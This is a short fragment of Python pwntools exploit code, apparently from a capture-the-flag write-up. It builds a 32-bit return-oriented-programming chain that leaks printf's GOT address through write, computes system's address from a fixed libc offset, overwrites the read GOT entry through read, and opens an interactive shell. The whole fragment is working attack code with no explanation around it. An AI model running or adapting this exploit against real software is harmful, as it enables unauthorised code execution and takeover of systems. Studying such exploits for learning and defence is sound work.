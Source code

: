 ```python
leak_printf+="A"*12

leak_printf+= p32(write_plt)

leak_printf+= p32(pppr)

leak_printf+= p32(1)

leak_printf+= p32(printf_got)

leak_printf+= p32(4)

leak_printf+= p32(read_plt)

leak_printf+= p32(pppr)

leak_printf+= p32(0)

leak_printf+= p32(read_got)

leak_printf+= p32(4)

#leak_printf+= "\x90\x94\x04\x08"

leak_printf+= p32(read_plt)

leak_printf+=  'AAAA'

leak_printf+= p32(cmd)

s.sendline(leak_printf)

s.recvuntil("\tselect\t|\t\n")

s.sendline('4')

s.recvuntil("\t\tBYE BYE\n\n")

#s.sendline('/bin/sh\x00')

#print(hex(u32(s.recv(4))))

printf = u32(s.recv(4))

#print("[*]printf : 0x%x"%(printf))

system = (printf) -  0xe6e0

#print("[*]system : 0x%x"%system)

s.send(p32(system))

s.interactive()
```
